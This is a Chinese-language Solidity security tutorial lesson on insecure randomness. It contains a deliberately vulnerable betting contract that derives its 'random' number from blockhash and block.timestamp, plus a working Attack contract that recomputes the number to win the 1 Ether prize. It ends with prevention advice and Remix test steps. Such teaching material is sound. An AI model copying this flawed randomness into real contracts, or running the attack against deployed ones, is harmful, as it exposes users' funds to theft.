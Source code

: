 # 71.Source of Randomness
## 漏洞
blockhash和block.timestamp不是可靠的随机性来源。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
注意：无法在Remix中使用blockhash，因此请使用ganache-cli

npm i -g ganache-cli
ganache-cli
在Remix中切换环境到Web3提供程序
*/

/*
GuessTheRandomNumber是一个游戏，如果你能猜出从区块哈希和时间戳生成的伪随机数，你就能赢得1 Ether。

乍一看，似乎不可能猜出正确的数字。
但是让我们看看赢得游戏有多么容易。

1. Alice部署GuessTheRandomNumber并放入1 Ether
2. Eve部署Attack
3. Eve调用Attack.attack()并赢得1 Ether

发生了什么？
Attack通过简单地复制计算随机数的代码，计算出了正确的答案。
*/

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // 检查余额的辅助函数
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
不要使用blockhash和block.timestamp作为随机性来源。

## remix验证
1. 因为无法在Remix中使用blockhash，因此切换至ganache-cli
![71-1.jpg](img/71-1.jpg)
2. 部署GuessTheRandomNumber并放入1 Ether
![71-2.jpg](img/71-2.jpg)
3. 部署Attack合约，调用attack()函数，输入GuessTheRandomNumber合约地址，获取1 ETH 验证
![71-3.jpg](img/71-3.jpg)